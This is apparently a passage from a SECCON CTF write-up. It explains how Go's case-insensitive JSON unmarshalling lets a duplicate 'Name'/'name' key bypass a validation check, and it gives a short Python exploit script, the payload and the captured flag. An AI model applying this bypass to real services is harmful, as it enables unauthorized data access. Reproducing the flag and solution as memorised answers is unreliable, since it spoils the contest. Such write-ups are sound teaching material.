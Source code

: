 And every other field in the struct should be zero values ("",0 ...),  Therefore, we need to find a way to let `json["Name"]!=""` and `vuln.Name == ""`

Since *json* is a **map[string]interface{}**, which means it is case sensitive, `"Name"` and `"name"` are two different thing. But how golang struct, when unmarshal, `"Name"` and `"name"` are considered as same key, also the second value will overwrite first value.


## exp.py

Make "Name" = "Heartbleed" two bypass first check, than use "name" = "" to overwrite `vuln.Name`. Use "ID" = 14 to query the flag

```
import requests
url = "https://vulnerabilities.quals.seccon.jp/api/vulnerability"
payload="{\"Name\":\"Heartbleed\",\"name\":\"\",\"ID\":14}"
response = requests.post(url, data=payload)
print(response.text)

```

## flag

SECCON{LE4RNING_FR0M_7HE_PA5T_FINDIN6_N0TABLE_VULNERABILITIE5}


# 0x2 Misc - hitchhike

**Everything is 42**

## tl;dr

the server.py.
